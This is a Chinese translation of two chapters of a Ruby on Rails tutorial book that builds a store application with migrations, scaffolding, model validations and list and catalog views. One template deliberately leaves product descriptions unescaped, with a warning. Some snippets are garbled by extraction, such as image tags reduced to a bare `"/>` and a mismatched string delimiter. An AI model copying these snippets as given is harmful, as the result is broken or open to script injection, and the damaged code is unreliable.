这段 Ruby 代码看起来与我们可能直接提供给数据库的原始 DDL 非常相似，但它实际上是 Ruby 代码。在迁移中，我们可能会对 MySQL 或 Oracle 输入`create table`，而我们说的是`create_table`。我们的`up()`方法为`products`表定义了三个列。Ruby 不是一种很棒的语言吗？

现在我们让 Rails 将此迁移应用到我们的开发数据库。这使用了`rake`命令。Rake 就像随时都有一位可靠的助手在手边：你告诉它做某件事，那件事就会完成。在这个例子中，我们将告诉 rake 将所有未应用的迁移应用到我们的数据库。

```
depot> rake db:migrate
(in /Users/dave/work/depot)
== CreateProducts: migrating ====================================
-- create_table(:products)
   -> 0.0625s
== CreateProducts: migrated (0.0656s) ===========================
```

就是这样。Rake 查找所有尚未应用到数据库的迁移并应用它们。在我们的例子中，`products`表被添加到由`database.yml`文件的`development:`部分定义的数据库中。³

Rake 如何知道哪些迁移已应用，哪些未应用到你的数据库？请在运行迁移后查看你的模式。

> ³如果你有兴致，可以尝试回滚迁移。只需输入：

```
depot> rake db:migrate VERSION=0
```

你的模式将被传回过去，`products`表将消失。再次调用`rake db:migrate`将重新创建它。

你会找到一个名为`schema_info`的表，它用于跟踪版本号。

### 创建你的控制器

正如我们在查看 MVC 架构时所见，我们的应用程序将需要一个控制器来协调维护产品列表时所需执行的操作。我们将这个控制器命名为`admin`。使用 Rails 便捷的生成器之一来创建它：

```
depot> ruby script/generate controller admin
    exists  app/controllers/
    exists  app/helpers/
    create  app/views/admin
    exists  test/functional/
    create  app/controllers/admin_controller.rb
    create  test/functional/admin_controller_test.rb
    create  app/helpers/admin_helper.rb
```

我们稍后会了解所有这些文件的作用。

### 创建维护应用

好的。所有的基础工作都已完成。我们将 Depot 应用程序设置为一个 Rails 项目。我们创建了开发数据库，并配置了应用程序以连接到该数据库。我们创建了一个`admin`控制器和一个产品模型，并使用迁移创建了相应的`products`表。现在是时候编写维护应用程序了：

使用你喜欢的编辑器，打开`app/controllers`目录中的`admin_controller.rb`文件。它应该看起来像这样：

```
class AdminController < ApplicationController
end
```

编辑它，添加一行代码，使其现在看起来像这样。

```
Download depot_a/app/controllers/admin_controller.rb
```

```
class AdminController < ApplicationController
    scaffold :product
end
```

这并不难，对吧？

这单独的额外一行就编写了一个基本的维护应用程序。`scaffold`声明告诉 Rails 在运行时生成应用程序代码，而`:product`参数告诉它我们希望使用`product`模型来维护数据。在我们担心这背后具体发生了什么之前，让我们先试试这个闪亮的新应用程序。首先，我们将启动 Rails 附带的、基于 WEBrick 的本地 Web 服务器。

```
depot> ruby script/server
=> Booting WEBrick...
=> Rails application started on http://0.0.0.0:3000
=> Ctrl-C to shutdown server; call with --help for options
[2006-01-09 19:41:37] INFO  WEBrick 1.3.1
[2006-01-09 19:41:37] INFO  ruby 1.8.2 (2004-12-30) [powerpc-darwin8.2.0]
[2006-01-09 19:41:37] INFO  WEBrick::HTTPServer#start: pid=4323 port=3000
```

正如它在第 [4](#) 章*即时满足*中的演示应用程序一样，这个命令在我们的本地主机（localhost）上启动了一个 Web 服务器，端口为 3000。<sup>4</sup>让我们连接到它。请记住，我们提供给浏览器的 URL 包含端口号（3000）和小写的控制器名称（admin）。



这相当无聊。它向我们显示了一个产品列表，但目前没有任何产品。让我们来解决这个问题。点击*新商品*链接，应该会出现一个表单。请继续填写它。

> <sup>4</sup>当你尝试运行 WEBrick 时，可能会得到一个说*地址已被使用*的错误。这仅仅意味着你的机器上已经有一个 Rails WEBrick 服务器在运行。如果你一直跟着书中的示例操作，那很可能是第 4 章的*Hello World!*应用程序。找到它的控制台，使用 control-C 来终止服务器。



图 6.2：我们刚刚添加了第一个产品



点击创建按钮，你应该会在列表中看到新产品（图 6.2）。也许这不是最漂亮的界面，但它能工作，并且我们可以将其展示给客户以获得批准。他们可以尝试其他链接（显示详细信息、编辑现有产品等等...）。我们向他们解释这只是一个初步步骤——我们知道它还很粗糙，但我们希望尽早获得他们的反馈。（在开始编码 25 分钟后就提供反馈，在任何人看来可能都算得上是早期。）

### Rails 脚手架

我们在非常简短的初步实现中涵盖了很多内容，所以让我们花一点时间更详细地看看最后一步。

Rails 脚手架是一个用于操作模型的自动生成的框架。

当我们启动应用程序时，模型检查了数据库中的表，弄清楚它有哪些列，并在数据库数据和 Ruby 对象之间创建了映射。这就是为什么*新商品*表单在显示时就已经知道标题、描述和图像字段——因为它们在数据库表中，所以被添加到了模型中。由脚手架创建的表单生成器可以向模型询问有关这些字段的信息，并使用它发现的信息来创建适当的 HTML 表单。

控制器处理来自浏览器的传入请求。一个应用程序可以有多个控制器。对于我们的 Depot 应用程序，我们最终可能会有两个控制器，一个处理卖家的网站管理，另一个处理买家的体验。我们在`Admin`控制器中创建了产品维护脚手架，这就是为什么访问它的 URL 路径以`admin`开头。

在创建 Rails 应用程序时，你并不总是使用脚手架——事实上，随着你经验的增加，你可能会发现自己使用它们越来越少。脚手架可以作为应用程序的起点——它本身并不是一个完成的应用程序。想想建筑工地：脚手架帮助工人们搭建最终的建筑物。通常在居住者搬入之前就会被拆除。

让我们利用脚手架的短暂特性，继续项目的下一次迭代。

## 6.2 迭代 A2：添加缺失的列

所以，我们将基于脚手架的代码展示给客户，并解释说它仍然相当粗糙。她很高兴能如此迅速地看到一些可以工作的东西。在她玩了一会儿之后，她注意到遗漏了一些东西——我们的产品没有价格。

这意味着我们需要在数据库表中添加一列。一些开发人员（和数据库管理员）会通过启动一个实用程序并发出等效于以下命令的语句来添加该列：

```
alter table products add column price int;
```

> **David 说……**
>
> **我们最终会替换所有脚手架吗？**
>
> 大多数情况下，是的。脚手架并非旨在成为应用程序开发的快速烘焙工具。它的存在是为了在*你*构建应用程序期间提供支持。当你在设计产品列表应如何工作时，你依赖于脚手架生成的创建、更新和删除操作。然后你替换生成的创建功能，同时依赖剩余的操作。如此循环往复。
>
> 然而，有时脚手架就足够了。如果你只是想作为后端界面的一部分，快速获得一个模型的在线界面，你可能并不在乎外观是否简陋。但这是例外情况。不要期望脚手架现在（或永远）能取代你作为程序员的需要。

但我们对迁移了如指掌。使用迁移添加新列将给我们一个版本控制的架构历史，以及一个简单的重新创建方式。

我们将从创建迁移开始。之前我们使用的是在创建`product`模型时自动生成的迁移。这一次，我们必须显式地创建一个。我们将给它一个描述性的名称——这将帮助我们一年后回到应用程序时记住每个迁移的作用。我们的惯例是，当迁移创建表时使用动词*create*，当它向现有表添加列时使用*add*。

```
depot> ruby script/generate migration add_price
exists  db/migrate
create  db/migrate/002_add_price.rb
```

注意生成的文件如何有一个`002`的序列前缀。Rails 使用这个序列号来跟踪哪些迁移已经添加到架构中，哪些还没有（同时也告诉它应该按什么顺序应用迁移）。

打开迁移源文件，编辑`up()`方法，插入将价格列添加到产品表的代码，如下所示。`down()`方法使用`remove_column()`来删除该列。

### 价格、美元与美分

我们定义模式时，决定以美分为单位存储产品价格。这背后是有原因的：Rails（在某种程度上令人遗憾地）将数据库中的带标度数字（例如`decimal(10,2)`列中的数字）转换为浮点数。而浮点数会受到舍入误差的影响：购物车里放入足够多的产品，你可能会看到总价显示为 234.99 而非 235.00。将价格存储为整数可以避免这个问题。

```ruby
class AddPrice < ActiveRecord::Migration
  def self.up
    add_column :products, :price, :integer, :default => 0
  end

  def self.down
    remove_column :products, :price
  end
end
```

这段代码也展示了迁移的另一个优良特性——我们可以访问底层数据库的功能来执行诸如设置列默认值之类的操作。不必过于担心这里使用的语法：我们稍后会深入探讨。

现在我们可以再次运行迁移。

```
depot> rake db:migrate
(in /Users/dave/work/depot)
== AddPrice: migrating ======================================
-- add_column(:products, :price, :integer, {:default=>0})
   -> 0.0443s
== AddPrice: migrated (0.0472s) =============================
```

Rails 知道数据库当前处于版本 001，因此只应用我们新创建的 002 迁移。

接下来是精彩的部分。回到你的浏览器，它已经连接到我们的应用程序。刷新页面，你应该现在就能在产品列表中看到价格列了。

还记得我们说过，产品会去`products`表中查询它应该具有哪些属性吗？在开发模式下，Rails 会在每次浏览器发送请求时重新加载模型文件，因此模型总能反映当前的数据库模式。同时，控制器中的脚手架声明也会为每个请求执行（因为控制器也会重新加载），因此它能够利用这些模型信息来更新所显示的界面。

从技术层面讲，这里并没有真正的魔法。然而，这种能力对开发过程有着巨大的影响。你有多少次完全按照客户的要求实现了功能，最终向他们展示可运行的应用程序时却被告知“哦，这不是我的意思”？大多数人都发现，能够亲手操作时理解事物要容易得多。Rails 能让你如此快速地将文字转化为可运行的应用程序，这意味着你总能很快让客户亲手操作他们的应用程序。这些简短的反馈循环意味着你和客户都能更快地理解真正的应用程序，并大大减少返工浪费的时间。

## 6.3 迭代 A3：验证！


在体验迭代二的结果时，我们的客户注意到一个问题。如果她输入了一个无效的价格，或者忘记设置产品描述，应用程序会愉快地接受表单并添加一条记录到数据库中。虽然缺少描述令人尴尬，但 `0.00` 美元的价格实际上让她亏钱，因此她要求我们为应用程序添加验证。数据库不应允许存储标题或描述为空、图像 URL 无效或价格无效的产品。

那么，我们应该把验证放在哪里呢？

模型层是代码世界与数据库之间的守门员。任何与我们应用程序相关的数据，在出入数据库之前都必须经过模型。这使其成为放置所有验证的理想位置；无论数据来自表单还是来自我们应用程序中的某些程序化操作。如果模型在写入数据库之前进行了检查，那么数据库就能免受坏数据的影响。

让我们看看模型类的源代码（位于`app/models/product.rb`）。

```ruby
class Product < ActiveRecord::Base
end
```

看起来内容不多，对吧？所有繁重的工作（数据库映射、创建、更新、搜索等）都在父类（`ActiveRecord::Base`，Rails 的一部分）中完成。得益于继承的便利，我们的`Product`类自动获得了所有这些功能。

添加验证应该相当简洁。我们首先验证在将一行数据写入数据库之前，文本字段都包含内容。我们通过向现有模型添加一些代码来实现这一点。

```ruby
class Product < ActiveRecord::Base
  validates_presence_of :title, :description, :image_url
end
```

`validates_presence_of()`方法是 Rails 的标准验证器。它检查给定的字段或一组字段是否存在且其内容非空。下一页的图 6.3 展示了如果我们尝试提交一个所有字段都未填写的新产品会发生什么。这相当令人印象深刻：出错的字段被高亮显示，错误在表单顶部的一个漂亮列表中进行了总结。仅一行代码就能达到这样的效果，很不错。你可能也注意到，在编辑并保存`product.rb`文件后，你不必重启应用程序来测试你的更改——正是同样的重载机制让 Rails 能够注意到我们模式的先前变更，同时也意味着它总会使用我们代码的最新版本。

现在我们想验证价格是一个有效的正数。我们将分两个阶段解决这个问题。首先，我们将使用名称美妙的`validates_numericality_of()`方法来验证价格是一个有效的数字。`:only_integer`代码告诉 Rails 仅接受该字段的带符号整数（默认是接受浮点数）。⁵

```ruby
validates_numericality_of :price, :only_integer => true
```

现在，如果我们添加一个价格无效的产品，相应的消息就会出现，如第 77 页的图 6.4 所示。

接下来，我们需要检查价格是否大于零。我们通过在模型类中编写一个名为`valid?()`的方法来实现。Rails 会在保存我们的产品实例之前自动调用此方法，因此我们可以用它来检查字段的有效性。我们将其设为受保护方法（`protected` → 第 535 页），因为它不应从模型上下文之外被调用。⁶

```ruby
protected
  def validate
    errors.add(:price, "should be positive") if price.nil? || price <= 0
  end
```

如果价格小于或等于零，`validate()`方法会使用`errors.add(...)`记录错误。这样做会阻止 Rails 将该行写入数据库。它也给我们的表单提供了一个漂亮的消息来显示给用户。`errors.add()`的第一个参数是字段的名称，第二个是消息的文本。

注意，在比较价格与零之前，我们首先检查它是否为`nil`。这一点很重要：如果用户将价格字段留空，浏览器将不会向我们的应用程序传递价格，价格变量也不会被设置。如果我们尝试将这个`nil`值与零进行比较，我们会得到一个错误。

还有两件事需要验证。首先，我们要确保每个产品的标题都是唯一的。在`Product`模型中再添加一行代码即可实现。唯一性验证会执行一个简单的检查，确保`products`表中没有其他行与我们即将保存的行具有相同的标题。

```ruby
validates_uniqueness_of :title
```

最后，我们需要验证为图像输入的 URL 是否有效。我们将使用`validates_format_of()`方法来实现，该方法会将字段与一个正则表达式进行匹配。目前我们只检查 URL 是否以`.gif`、`.jpg`或`.png`结尾。⁷

```ruby
validates_format_of :image_url,
               :with    => %r{\.(gif|jpg|png)$}i,
               :message => "must be a URL for a GIF, JPG, or PNG image"
```

因此，短短几分钟内，我们就添加了验证来检查：

- 产品的标题、描述和图像 URL 字段非空。
- 价格是一个大于零的有效整数。
- 标题在所有产品中是唯一的。
- 图像 URL 看起来合理。

以下是更新后的`Product`模型的完整清单。

```ruby
class Product < ActiveRecord::Base
  validates_presence_of :title, :description, :image_url
  validates_numericality_of :price, :only_integer => true
  validates_uniqueness_of :title
  validates_format_of :image_url,
                 :with    => %r{\.(gif|jpg|png)$}i,
                 :message => "must be a URL for a GIF, JPG, or PNG image"

  protected
  def validate
    errors.add(:price, "should be positive") if price.nil? || price <= 0
  end
end
```

接近这个迭代周期的尾声时，我们请客户体验一下应用程序，她满意多了。虽然只花了几分钟，但添加验证这个简单的举动让产品维护页面感觉更加可靠了。

> 后来，我们可能想更改这个表单，让用户从可用图像列表中选择，但我们仍然希望保留验证，以防止恶意用户直接提交坏数据。

---

**注释:**

- ⁵记住，我们在数据库中以美分为单位存储价格。在本书后面，我们将向你展示如何使用这些属性的不同内部和外部表示形式。
- ⁶MySQL 为 Rails 提供了足够的元数据来知道`price`包含一个数字，因此 Rails 在内部将其存储为整数。对于其他数据库，该值可能作为字符串返回，因此你需要在使用它进行比较之前使用`Integer(price)`进行转换。

**插图:**

- 图 6.3：验证字段是否存在
- 图 6.4：价格验证失败

## 6.4 迭代 A4：优化列表显示

我们的客户还有一个最后的请求（客户似乎总是有最后一个请求）。所有产品的列表显示得太丑了。我们能把它“美化”一下吗？另外，既然我们正在修改这里，能否同时显示产品图片和图片网址？

我们面临一个两难境地。作为开发者，我们通常会对这类请求的反应是倒吸一口凉气、会意地摇摇头，并低声说“你想要什么？”。但与此同时，我们也有点想炫耀一下。最终，因为使用 Rails 做这种修改很有趣这个事实胜出，于是我们启动了信赖的编辑器。

但接着我们面临第二个困境。到目前为止，我们编写的唯一与显示产品列表相关的代码是

```
scaffold :product
```

这里没有太多自定义视图的空间！我们使用了一个*动态脚手架*，它会在每次请求到来时自行配置。如果我们想查看脚手架中实际的视图代码，就需要让 Rails 显式地生成它，创建一个*静态脚手架*。脚手架生成器接受两个参数：模型和控制器的名称。

```
depot> ruby script/generate scaffold product admin
       exists  app/controllers/
       exists  app/helpers/
       exists  app/views/admin
       exists  test/functional/
dependency model
       exists    app/models/
       exists    test/unit/
       exists    test/fixtures/
          skip  app/models/product.rb
 identical    test/unit/product_test.rb
 identical    test/fixtures/products.yml
  create  app/views/admin/_form.rhtml
  create  app/views/admin/list.rhtml
  create  app/views/admin/show.rhtml
  create  app/views/admin/new.rhtml
  create  app/views/admin/edit.rhtml
overwrite app/controllers/admin_controller.rb? [Ynaq] y
    force  app/controllers/admin_controller.rb
overwrite test/functional/admin_controller_test.rb? [Ynaq] y
    force  test/functional/admin_controller_test.rb
 identical  app/helpers/admin_helper.rb
  create  app/views/layouts/admin.rhtml
  create  public/stylesheets/scaffold.css
```

哇！这真是个大动作。但基本上，它相当简单。它检查并确保我们有一个模型文件，然后创建所有显示维护屏幕所需的视图文件。然而，当它处理到控制器时，它停了下来。它注意到我们已经编辑了`admin_controller`文件，并在用新版本覆盖它之前征求我们的许可。我们对此文件所做的唯一修改是添加了`scaffold :product`这一行，而我们不再需要它了，所以我们输入 Y。它还询问是否要覆盖控制器的功能测试文件，我们再次同意。

如果你刷新浏览器，应该看不到页面显示有任何变化：静态脚手架添加的代码与动态脚手架实时生成的代码是相同的。然而，我们现在有了代码，就可以编辑它了。

`app/views/admin/list.rhtml`文件中的 Rails 视图生成了当前的产品列表。由脚手架生成器产生的源代码大致如下。

```
Download depot_b/app/views/admin/list.rhtml
```

```
<h1>Listing products</h1>

<table>
  <tr>
    <% for column in Product.content_columns %>
      <th><%= column.human_name %></th>
    <% end %>
  </tr>

<% for product in @products %>
  <tr>
    <% for column in Product.content_columns %>
      <td><%=h product.send(column.name) %></td>
    <% end %>
    <td><%= link_to 'Show', :action => 'show', :id => product %></td>
    <td><%= link_to 'Edit', :action => 'edit', :id => product %></td>
    <td><%= link_to 'Destroy', { :action => 'destroy', :id => product },
                                 :confirm => 'Are you sure?',
                                 :post => true %></td>
  </tr>
<% end %>
</table>

<%= link_to 'Previous page',
      { :page => @product_pages.current.previous } if @product_pages.current.previous %>
<%= link_to 'Next page',
      { :page => @product_pages.current.next } if @product_pages.current.next %>

<br />
<%= link_to 'New product', :action => 'new' %>
```

该视图使用 ERb 遍历`Product`模型中的列。它为`@products`数组中的每个产品创建一行表格。（此数组由控制器中的`list`动作方法设置。）该行包含结果集中每个列的条目。

这段代码的动态特性很巧妙，因为这意味着显示会自动更新以适应新列。然而，这也使得显示有些通用化。所以，让我们修改这段代码以产生更美观的输出。

不过，在我们深入之前，如果我们有一组一致的测试数据来工作就好了。我们*可以*使用我们脚手架生成的界面，从浏览器输入数据。然而，如果我们这样做，将来处理我们代码库的开发者也必须这样做。而且，如果这是一个团队项目，团队的每个成员都必须输入他们自己的数据。如果我们能以更受控的方式将数据加载到表中就好了。事实证明，我们可以。数据迁移来救场了！

让我们创建一个纯数据迁移。`up()`方法向我们的产品表添加三行包含典型数据的记录。`down()`方法清空表。这个迁移的创建方式与其他任何迁移一样：

```
depot> ruby script/generate migration add_test_data
Create  db/migrate
create  db/migrate/003_add_test_data.rb
```

然后我们添加填充产品表的代码。这使用了`Product`模型的`create()`方法。以下是该文件的摘录。（你可能想从网上提供的示例代码中复制文件，⁸而不是手动输入迁移。将其复制到应用程序的`db/migrate`目录中。同时，将图片⁹和`depot.css`¹⁰文件复制到应用程序中相应的位置。）

```
Download depot_c/db/migrate/003_add_test_data.rb

class AddTestData < ActiveRecord::Migration
  def self.up
    Product.create(:title => 'Pragmatic Version Control',
                   :description =>
```

____________________________________

⁸ http://media.pragprog.com/titles/rails2/code/depot_c/db/migrate/003_add_test_data.rb.

⁹ http://media.pragprog.com/titles/rails2/code/depot_c/public/images

¹⁰ http://media.pragprog.com/titles/rails2/code/depot_c/public/stylesheets/depot.css

```
%[<p>
    This book is a recipe-based approach to using Subversion that will
    get you up and running quickly--and correctly. All projects need
    version control: it's a foundational piece of any project's
    infrastructure. Yet half of all project teams in the U.S. don't use
    any version control at all. Many others don't use it well, and end
    up experiencing time-consuming problems.
</p>},
:image_url => '/images/svn.jpg',
:price => 2850)

### . . .
end

def self.down
    Product.delete_all
end
end
```

运行`rake db:migrate`将用测试数据填充你的产品表。

现在让我们把产品列表整理好。我们将使用一个简单的基于表格的模板，编辑`app/views/admin`中的`list.rhtml`文件，替换动态列显示。


```text
Download depot_c/app/views/admin/list.rhtml

<div id="product-list">
    <h1>Product Listing</h1>

    <table cellpadding="5" cellspacing="0">
    <% for product in @products %>
        <tr valign="top" class="<%= cycle('list-line-odd', 'list-line-even') %>">

            <td>
                "/>
            </td>

            <td width="60%">
                <span class="list-title"><%= h(product.title) %></span><br />
                <%= h(truncate(product.description, 80)) %>
            </td>

            <td class="list-actions">
                <%= link_to 'Show', :action => 'show', :id => product %><br/>
                <%= link_to 'Edit', :action => 'edit', :id => product %><br/>
                <%= link_to 'Destroy', { :action  => 'destroy', :id => product },
                                                    :confirm => "Are you sure?",
                                                    :post    => true %>
            </td>
        </tr>
    <% end %>
```

### `:post => true` 是什么情况？

你可能已经注意到，脚手架生成的“删除”链接包含了参数`:post => true`。这个参数是在 Rails 1.1 中才添加的，它让我们得以一窥 Rails 的未来发展。

浏览器通过 HTTP 与服务器通信。HTTP 定义了一组浏览器可以使用的动词，并规定了何时可以使用每种动词。例如，普通的超链接使用的是 HTTP GET 请求。根据 HTTP 的定义，GET 请求用于检索数据：它不应该产生任何副作用。技术术语是*幂等*——你应该能够多次发出相同的 GET 请求，并且每次都得到相同的结果。

但是，如果我们使用 GET 请求作为链接来执行 Rails 中删除产品的操作，它就不再是幂等的了：第一次点击会成功，但后续点击就会失败。因此，Rails 团队修改了脚手架代码生成器，强制链接发出 HTTP POST 请求。这些 POST 请求被允许产生副作用，因此更适合用于删除操作。

随着时间的推移，预计 Rails 在正确使用 HTTP 协议方面会变得越来越严格。

所有管理页面都使用一个通用的页面环境。这个文件叫做`admin.rhtml`，是一个 Rails 布局文件，位于`layouts`目录中。

如果你查看这个文件，会发现第四行类似于：

```erb
<%= stylesheet_link_tag 'scaffold' %>
```

这里使用了`stylesheet_link_tag()`来创建一个 HTML `<link>`标签，用于加载标准的脚手架样式表。我们只需在这里添加我们的`depot.css`文件（去掉`.css`扩展名）即可。

```erb
<%= stylesheet_link_tag 'scaffold', 'depot' %>
```

因此，我们已经向数据库加载了一些测试数据，重写了用于显示产品列表的`list.rhtml`文件，创建了一个`depot.css`样式表，并通过编辑布局文件`admin.rhtml`将该样式表链接到了我们的页面中。打开浏览器，访问`localhost:3000/admin/list`，得到的产品列表可能看起来就像下一页的图**6.5**那样。

静态的 Rails 脚手架提供了真实的源代码，我们可以修改这些文件并立即看到结果。动态脚手架与静态脚手架的结合，为我们提供了以敏捷方式开发所需的灵活性。我们可以自定义特定的源文件，而保持其他部分不变——变更既是可能的，也是局部化的。

于是，我们自豪地向客户展示了她的新商品列表，她很满意。任务完成。该吃午饭了。

即使这个简单的模板也使用了许多 Rails 的内置功能：

- 列表中的行具有交替的背景颜色。这是通过将每行的 CSS 类设置为`list-line-even`或`list-line-odd`来实现的。一个名为`cycle()`的 Rails *辅助方法*实现了这一点，它在连续的行中自动在这两个样式名之间切换。

- `h()`方法用于转义产品标题和描述中的 HTML。这就是为什么你在描述中看到标记文本：它们被转义并显示出来，而不是被解释执行。

- 我们还使用了`truncate()`辅助方法来仅显示描述的前 80 个字符。

- 看看`link_to 'Destroy'`这一行。注意它有一个参数`:confirm => "Are you sure?"`。如果你点击这个链接，Rails 会安排你的浏览器弹出一个对话框，要求在继续链接并删除产品之前进行确认。（另外，关于这个操作的一些内情，请参见下一页的侧栏。）

我们需要一个地方来放置我们的 CSS 样式定义。所有脚手架生成的应用程序都使用`public/stylesheets`目录中的`scaffold.css`样式表。我们没有修改这个文件，而是为应用程序创建了一个新的样式表`depot.css`，并将它放在同一个目录中。这个样式表的完整列表从第**567**页开始。

最后，我们需要将这些样式表链接到我们的 HTML 页面中。如果你查看`list.rhtml`文件，不会找到任何对样式表的引用。你甚至找不到通常用于存放这些引用的 HTML `<head>`部分。相反，Rails 保留了一个单独的文件，用于为所有管理页面创建标准的页面环境。



图 6.5：整理后的产品列表

### 我们刚刚做了什么

在本章中，我们为我们的商店应用程序奠定了基础。

- 我们创建了一个开发数据库，并配置了我们的 Rails 应用程序来访问它们。

- 我们使用迁移来创建和修改开发数据库中的模式，并加载测试数据。

- 我们创建了`products`表，并使用脚手架生成器编写了一个维护该表的应用程序。

- 我们通过添加验证来增强了生成的代码。

- 我们用更美观的东西重写了通用的视图代码。

有一件事我们没有做，那就是讨论产品列表的分页。脚手架生成器自动使用了 Rails 内置的分页辅助功能。它将产品列表分解为每页 10 条记录，并自动处理页面间的导航。我们从第 [413](#) 页开始更深入地讨论这一点。

在本章中，我们将看到：

- 编写我们自己的视图
- 使用布局来装饰页面
- 集成 CSS
- 编写辅助方法
- 将页面链接到操作

# 第 7 章：任务 B：商品目录显示

总的来说，到目前为止这是成功的一天。我们从客户那里收集了初步需求，记录了基本流程，规划了我们需要的数据第一版，并为 Depot 应用程序的产品维护页面进行了组装。我们甚至成功地以一顿像样的午餐结束了上午的工作。

因此，有了这份充实，我们进入第二个任务。我们和客户讨论了优先事项，她说想开始从买家的角度看看东西是什么样子。我们的下一个任务是创建一个简单的商品目录显示。

从我们的角度来看，这也是非常有意义的。一旦我们安全地将产品存入数据库，显示它们应该就相当简单了。这也为我们以后开发购物车部分代码提供了一个基础。

我们还应该能够利用我们在产品维护任务中所做的工作——商品目录显示实际上就是一个美化过的产品列表。那么，让我们开始吧。

## 7.1 迭代 B1：创建商品目录列表

回到第 71 页，我们说过这个应用程序将使用两个控制器类。我们已经创建了`Admin`控制器，供卖家管理 Depot 应用程序使用。现在是时候创建第二个控制器了，也就是与付费客户交互的那个。我们把它叫做`Store`。

```text
depot> ruby script/generate controller store index
      exists  app/controllers/
      exists  app/helpers/
      create  app/views/store
      exists  test/functional/
      create  app/controllers/store_controller.rb
      create  test/functional/store_controller_test.rb
      create  app/helpers/store_helper.rb
      create  app/views/store/index.rhtml
```

就像上一章我们使用`generate`实用程序创建一个用于管理产品的控制器一样，这里我们要求它创建一个新控制器（名为`StoreController`），其中包含一个操作方法`index()`。

那么，为什么我们选择将第一个方法命名为`index`呢？因为，就像大多数 Web 服务器一样，如果你调用一个 Rails 控制器而没有指定明确的操作，Rails 会自动调用`index`操作。事实上，让我们试一试。将浏览器指向 <http://localhost:3000/store>，我们的网页就弹出来了。



它可能不会让我们致富，但至少我们知道一切都正确连接起来了。页面甚至告诉我们去哪里找绘制这个页面的模板文件。

让我们从显示数据库中所有产品的简单列表开始。我们知道最终需要更复杂一些，将它们分成类别，但这能让我们先动起来。

我们需要从数据库中获取产品列表，并使其可供视图代码使用以显示表格。这意味着我们必须更改`store_controller.rb`中的`index()`方法。我们希望在适当的抽象级别上编程，所以让我们假设我们可以向模型询问我们可以销售的产品列表。

```ruby
Download depot_d/app/controllers/store_controller.rb

class StoreController < ApplicationController
  def index
    @products = Product.find_products_for_sale
  end
end
```

`end`

显然，这段代码目前无法运行。我们需要在`product.rb`模型中定义`find_products_for_sale()`方法。后续代码使用了 Rails 的`find()`方法。`:all`参数告诉 Rails 我们想要匹配给定条件的所有行。我们询问了客户对商品排列顺序是否有偏好，并共同决定尝试按字母顺序显示商品，因此代码对`title`进行了排序。

```ruby
class Product < ActiveRecord::Base
  def self.find_products_for_sale
    find(:all, :order => "title")
  end

  # validation stuff...
end
```

`find()`方法返回一个数组，其中包含数据库返回的每一行对应的一个`Product`对象。`find_products_for_sale()`方法只需将这个数组传递回控制器。

现在我们需要编写视图模板。为此，请编辑`app/views/store`目录下的`index.rhtml`文件。（记住，视图的路径名由控制器的名称（`store`）和操作的名称（`index`）组成。`.rhtml`部分表示这是一个 ERb 模板。）

```erb
<h1>Your Pragmatic Catalog</h1>

<% for product in @products -%>
  <div class="entry">
    "/>
    <h3><%= h(product.title) %></h3>
    <%= product.description %>
    <span class="price"><%= product.price %></span>
  </div>
<% end %>
```

这次，我们使用了`h(string)`方法来转义产品标题中的任何 HTML 元素，但没有用它来转义描述。这样我们就可以添加 HTML 样式，使描述对客户来说更有趣。¹ 总的来说，要养成在模板中输入`<%= h(...) %>`的习惯，只有在你确信是安全的情况下才去掉`h`。

点击刷新，会显示图 7.1 中的页面。它看起来很丑陋，因为我们还没有包含 CSS 样式表。当我们思考这个问题时，客户正好路过，她指出她还希望在面向公众的页面上看到一个像样的标题和侧边栏。

在现实世界的这个阶段，我们可能需要召集设计人员——我们见过太多程序员设计的网站，不想再给世界添堵了。但务实的网页设计师正在某个海滩上寻找灵感，直到今年晚些时候才会回来，所以现在让我们先放一个占位符。是时候进行一次迭代了。

## 7.2 迭代 B2：添加页面布局

特定网站中的页面通常共享类似的布局——设计师会创建一个标准模板用于放置内容。我们的任务是将这个页面装饰添加到每个商店页面中。

幸运的是，在 Rails 中我们可以定义布局。*布局*是一个模板，我们可以将额外的内容流入其中。在我们的例子中，我们可以为所有商店页面定义一个单一的布局，并将目录页面插入该布局。稍后我们可以对购物车和结账页面做同样的事情。因为只有一个布局，我们可以通过编辑一个东西来改变我们网站这一部分的整个外观和感觉。这让我们对现在放置占位符感觉好一些；当设计师最终从岛上回来时，我们可以更新它。

